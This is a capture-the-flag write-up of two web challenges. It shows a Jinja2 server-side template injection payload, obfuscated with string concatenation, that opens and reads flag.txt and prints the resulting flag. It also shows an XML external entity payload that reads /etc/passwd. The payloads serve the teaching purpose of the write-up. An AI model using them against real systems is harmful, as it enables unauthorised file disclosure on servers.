 <img width="582" height="364" alt="Screenshot 2025-08-27 221025" src="https://github.com/user-attachments/assets/7388a500-3e31-4eda-a2db-ca7602028595" />

<img width="928" height="522" alt="image" src="https://github.com/user-attachments/assets/b23931e3-d7e2-443a-8a74-e6d15b5d7902" />

### N3XTG3N 

We are presented with a web application that reflects our input back into the page. This hints at a possible **Server-Side Template Injection (SSTI)** vulnerability.

<img width="797" height="420" alt="image" src="https://github.com/user-attachments/assets/c4caf974-6189-4f90-89ad-5d760c618e53" />

#### Solution

1. **Testing for SSTI**
   - Submitting `{{7*7}}` returns `49`.
   - This confirms template injection is possible (likely Jinja2).
  
<img width="940" height="511" alt="image" src="https://github.com/user-attachments/assets/169b58e4-73a3-4c0d-931b-57a23013e160" />

  
2. **Getting the Flag**
   - Instead of overcomplicating things, I simply guessed that the flag would be in `flag.txt`.  
   - Using SSTI to read it:
     ```jinja2
     {{ cycler.__init__.__globals__['__bui'~'ltins__']['o'~'pen']('fl'~'ag'~'.t'~'xt')['re'~'ad']() }}
     ```
   - This successfully revealed the flag.
  
  <img width="940" height="618" alt="image" src="https://github.com/user-attachments/assets/3cc0edc8-0b26-430b-81a2-c7ebbc510eba" />

  
#### Flag 

```
n3xt{sst1_m4k3_4_p3rf3ct_ch4ll3ng3}
```

### Processor

<img width="582" height="364" alt="Screenshot 2025-08-27 221025" src="https://github.com/user-attachments/assets/7388a500-3e31-4eda-a2db-ca7602028595" />

The challenge gives us an XML “Processor” web app where we can submit arbitrary XML. This immediately suggests XML External Entity (XXE) injection.

<img width="923" height="626" alt="image" src="https://github.com/user-attachments/assets/bb116e36-962d-4c7a-9e19-552babc5b250" />

#### Solution

1. Prove XXE is working

Payload to test reading `/etc/passwd` (classic harmless file):

```
<?xml version="1.0"?>
<!DOCTYPE root [ <!ENTITY x SYSTEM "file:///etc/passwd"> ]>
<root>&x;</root>

```
